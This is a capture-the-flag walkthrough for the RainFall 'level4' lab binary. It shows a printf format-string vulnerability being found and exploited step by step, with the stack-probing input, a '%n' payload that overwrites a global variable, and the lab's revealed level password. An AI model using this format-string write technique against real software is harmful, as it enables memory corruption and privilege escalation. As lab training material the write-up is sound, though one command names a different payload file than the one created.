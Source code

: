level4
======

*	We spawn with a [level4](source/level4) executable
	```console
	level4@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
	level4@RainFall:~$ ./level4
	█
	level4@RainFall:~$ ./level4 
	dsadasd
	dsadasd
	```
*	Let's take a look at the code
	```console
	root@DESKTOP-69N2SL4:~# scp -P 4242 level4@192.168.29.4:~/level4 .
	root@DESKTOP-69N2SL4:~# ./getFunctions.sh 
	Executable files in the current directory:
	[1] ./level4
	Enter the number of the executable file you want to analyze: 1
	```
*	It seems there is 3 functions -> `main`, `p` and `n`. Even though the code isn't complex, for understanding purposes, I'll use ghidra to convert it to `C` in [level4.c](source/level4.c)
*	To summarize :
	-	`main` calls function n then return 
	-	`n` function uses fgets and calls printf with `p` on what you gave
	-	then, if the global variable `m` is equal to `0x1025544`, the function `cat` the password for the next level
*	I tried to do like [level3](../level3/) and found our argument at position 12
	```console
	level4@RainFall:~$ ./level4 
	aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x %x
	aaaa b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825
	```
*	Now let's retrieve the little endian address of `m (0x8049810)` -> `\x10\x98\x04\x08`
*	Let's try to print it with the program
	```console
	level4@RainFall:~$ python -c 'print "\x44\x55\x25\x10" + " %x "*12' > /tmp/test
	level4@RainFall:~$ cat /tmp/test | ./level4 
	DU% b7ff26b0  bffff794  b7fd0ff4  0  0  bffff758  804848d  bffff550  200  b7fd1ac0  b7ff37d0  10255544 
	```
	It seems to be working
*	The issue here is that padding of `0x1025544(int 16930116)`is too long so we need one more thing to specify the right field, we will be using the `%d` modifier like so `%16930116d`. Let's not forget to remove `4` because of the base address size so it will be `%16930112d`
*	Let's try this and don't forget to change the `12th` position with `%n`:
	```console
	level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/test
	level4@RainFall:~$ cat /tmp/exploit | ./level4
	...
	...
	0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
	```